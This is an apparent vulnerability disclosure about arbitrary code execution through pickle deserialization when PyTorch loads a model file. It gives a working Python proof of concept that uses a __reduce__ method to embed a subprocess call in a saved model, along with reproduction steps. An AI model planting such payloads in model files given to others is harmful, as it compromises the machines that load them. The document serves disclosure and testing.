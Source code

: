 This vulnerability enables attackers to:
• Execute arbitrary Python code on model loading
• Compromise machine learning training and inference systems
• Access sensitive training data and model parameters
• Deploy backdoored models in production environments
• Gain unauthorized access to ML infrastructure

#### 🛠️ PROOF OF CONCEPT

```python
# Create malicious PyTorch model with embedded payload
import torch
import pickle
import subprocess
import os

class MaliciousModel:
    def __reduce__(self):
        # This will execute when the pickle is loaded
        return (subprocess.call, (['whoami'], ))

# Create a legitimate-looking model structure
model_data = {
    'state_dict': {'layer1.weight': torch.randn(10, 5)},
    'model_config': {'input_size': 5, 'output_size': 10},
    'malicious_payload': MaliciousModel()
}

# Save the malicious model
torch.save(model_data, 'malicious_model.pth')

print("Malicious model created: malicious_model.pth")

# Demonstrate the vulnerability
print("Loading model (this will trigger code execution):")
loaded_model = torch.load('malicious_model.pth')
```

#### 🔬 STEPS TO REPRODUCE

1. Install PyTorch 2.2.2 in test environment
2. Create the malicious model file using the PoC code
3. Attempt to load the model using torch.load()
4. Observe command execution during model loading
5. Verify that arbitrary code was executed with current user privileges
6. Test with different model formats (.pt, .pth, .pkl)

#### 📊 EVIDENCE

• Command execution output during torch.load() operation
• Process monitoring logs showing spawned processes
• Memory analysis revealing pickle deserialization attack
• File system changes made by executed payload
• Network connections initiated by malicious code
